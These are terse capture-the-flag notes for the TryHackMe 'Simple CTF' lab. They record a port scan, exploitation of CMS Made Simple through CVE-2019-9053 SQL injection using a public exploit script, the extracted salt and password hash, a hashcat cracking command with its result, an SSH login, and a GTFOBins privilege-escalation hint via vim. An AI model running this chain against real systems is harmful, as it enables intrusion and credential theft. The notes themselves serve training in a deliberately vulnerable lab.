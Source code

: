 2022-06-14 
Simple CTF @ Tryhackme
# gryNet

$IP = 10.10.5.4

21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)


CVE-2019-9053

CMS Made Simple < 2.2.10 - SQL Injection                                          | php/webapps/46635.py

Script is broken. Print function not working. Fix with parenthesis.

sqle.py -u http://10.10.5.4/simple

salt: 1dac0d92e9fa6bb2
username: mitch
email: admin@admin.com
password: 0c01f4468bd75d7a84c7eb73846e8d96
hash to crack: 0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2

hashcat -O -m 20 -a 0 hash.txt /usr/share/seclists/Passwords/Common-Credentials/best110.txt

0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2:secret

ssh mitch@10.10.5.4 -p 2222 
secret

vim gftobin